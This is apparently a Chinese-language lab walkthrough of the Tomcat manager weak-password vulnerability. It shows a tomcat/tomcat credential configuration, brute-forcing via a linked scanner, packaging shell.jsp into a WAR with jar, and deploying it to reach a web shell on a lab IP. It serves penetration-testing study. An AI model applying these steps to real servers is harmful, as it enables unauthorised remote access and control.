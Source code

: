 所有版本

##### 漏洞原理

口令设置较弱，可直接爆破。

```xml
conf/tomcat-users.xml(添加一行即可)
<user username="tomcat" password="tomcat" roles="manager-status,manager-gui,manager-script,manager-jmx"/>
```

##### 漏洞条件

无条件

##### 漏洞检测

1、URL访问

```
http://192.168.3.167:8080/
```

![image-20200813163502206](/images/tomcat/image-20200813163502206.png)

2、点击“Server Status”

![image-20200813163542988](/images/tomcat/image-20200813163542988.png)

3、尝试爆破

[脚本](https://github.com/magicming200/tomcat-weak-password-scanner)

![image-20200813163718308](/images/tomcat/image-20200813163718308.png)

4、生成war包

```shell
➜  server jar -cvf  shell.war shell.jsp
```

![image-20200813163839974](/images/tomcat/image-20200813163839974.png)

5、部署war包

![image-20200813164753751](/images/tomcat/image-20200813164753751.png)

6、访问

```
http://192.168.3.167:8080/shell/shell.jsp
```

![image-20200813164812341](/images/tomcat/image-20200813164812341.png)

![image-20200813164838466](/images/tomcat/image-20200813164838466.png)
